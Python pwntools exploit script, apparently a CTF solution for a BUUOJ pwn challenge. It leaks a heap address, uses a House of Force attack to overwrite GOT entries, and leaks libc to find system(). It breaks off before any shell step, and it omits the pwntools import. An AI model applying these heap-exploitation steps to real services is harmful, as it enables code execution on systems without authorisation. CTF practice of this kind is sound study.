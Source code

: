 ```python
from struct import pack
a=0
b=1
elf=ELF("./pwn")
libc=ELF("./libc-2.23.so")
context.os='linux'
context.arch='i386'
#context.log_level='debug'
if(a==1):
	p=process("./pwn")
else:
	p=remote("node4.buuoj.cn",26064)

def allo(size,con):
	p.recvuntil("option--->>\n")
	p.sendline("1")
	p.recvuntil(":\n")
	p.sendline(str(size))
	p.recvuntil(":\n")
	p.sendline(con)

def edit(idx,con):
	p.recvuntil("option--->>\n")
	p.sendline("3")
	p.recvuntil(":\n")
	p.sendline(str(idx))
	p.recvuntil(":\n")
	p.sendline(con)

def free(idx):
	p.recvuntil("option--->>\n")
	p.sendline("4")
	p.recvuntil(":\n")
	p.sendline(str(idx))
#a泄露libc
p.recvuntil("name:")
p.send("a"*64)
p.recvuntil("a"*64)
ad=u32(p.recv(4))
log.info("ad: "+hex(ad))
p.recvuntil("Org:")
p.send("a"*64)
p.recvuntil("Host:")
p.sendline(p32(0xffffffff))

#b house of force
top_chunk=ad+0xf8
offest=0x804B120-top_chunk-0x10
allo(8,"aaaa")
allo(8,"bbbb")
allo(offest,'')
allo(0x30,p32(elf.got["free"])+p32(elf.got["atoi"])+p32(elf.got["free"])+p32(elf.got["atoi"])+p32(elf.got["atoi"])+p32(elf.got["atoi"]))
edit(0,p32(elf.plt["puts"]))
#gdb.attach(p)
free(1)

ad=u32(p.recv(4))

libc=LibcSearcher("atoi",ad)
libc_base=ad-libc.dump("atoi")
sys_ad=libc_base=libc_base+libc.dump("system")

```